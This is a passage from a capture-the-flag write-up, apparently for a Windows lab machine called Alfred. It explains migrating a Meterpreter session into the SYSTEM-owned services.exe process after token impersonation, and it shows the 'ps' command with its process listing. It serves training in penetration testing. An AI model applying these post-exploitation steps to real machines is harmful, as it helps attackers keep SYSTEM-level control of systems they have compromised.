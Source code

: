 <img src="/assets/img/posts/alfred/meme_task3.jpg" width="50%" height="50%">



#### 4. Migrate Process
> Even though you have a higher privileged token you may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). Ensure that you migrate to a process with correct permissions (above questions answer). The safest process to pick is the services.exe process. First use the ps command to view processes and find the PID of the services.exe process. Migrate to this process using the command migrate PID-OF-PROCESS

Since it is possible that even though we have a privileged token we may not have the permission of the privileged user. So we can migrate our process to another SYSTEM process.
First, we check the available processes, by running the command ```ps```:
```
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 396   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 516   668   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
 524   516   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 572   564   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 580   516   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 608   564   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 668   580   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
```
